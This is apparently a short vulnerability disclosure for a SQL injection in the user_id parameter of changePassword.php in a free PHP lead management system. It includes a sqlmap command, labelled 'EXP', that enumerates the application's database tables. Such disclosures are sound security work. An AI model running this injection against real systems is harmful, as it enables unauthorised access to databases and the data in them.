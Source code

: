 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $user_id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208410212-f95bf0f0-97ae-441c-8e8c-ee4eeeeead6a.png)


EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/changePassword.php" --data "user_id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208410277-335c162f-3a05-4749-9167-aa590fe51b62.png)

